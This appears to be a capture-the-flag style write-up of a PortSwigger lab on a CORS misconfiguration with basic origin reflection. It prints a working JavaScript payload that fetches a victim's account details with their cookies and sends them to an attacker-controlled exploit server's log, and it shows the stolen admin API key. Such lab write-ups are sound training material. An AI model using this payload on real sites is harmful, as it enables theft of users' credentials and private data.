




### CORS vulnerability with basic origin reflection : APPRENTICE

---

> Given credentials `wiener:peter`.

> Logging in with the given credentials and having BURPSUITE PROXY HTTP history on.


> We see this page.


> It has the API key of the `wiener` user, but we need that of the `admin` user.
> Viewing the HTTP history and going through the responses, we see the `GET` request for `/accountDetails`.



> We see that the response contains the ACAO header, meaning that the CORS protocol is being used.
> To try and bypass it, we supply the `origin` header in the request and see how the application responds.



> We supplied a random `Origin` and we see that the headers respond allowing full access, as well as access to credentials.
> Therefore, we can make a request from anywhere, and the `/accountDetails` page will respond normally.

> Crafting our payload so that it generates a `GET` request to this page and obtains the `apiKey`.

```HTML
<script>
	var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a8e00d7041d8e74815839ec000e003a.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

> We add this payload to the exploit server, store it, and then deliver it to victim.



> What this does is that it puts in the `Access Log` the response to requesting the `/AccountDetails` page.
> Assuming that the administrator clicks on this payload, the `req.withCredentials=true` keeps track of the user cookies, meaning that the `/accountDetails` page will be fetched as the admin user.



> We see a different IP address, and in it is a request with the name `administrator`.
> We see the API key after: 
```
sWqEsHy84mKKZkDfGRkdXjKgU8VWQVfr
```

> Submitting it in the solution box completes the lab.


#### Summary

> We see that there is private information for each user.
> Trying to access that information from a request originating from a different origin works, and it also allows for the transfer of cookies.
> We craft a payload that creates a request to this page, and if the admin user clicks on it, the cookies are transferred, and it opens the private info of the admin.
> The payload we created appends the entire HTML response as a query parameter, so we are able to get the API key from there.

---
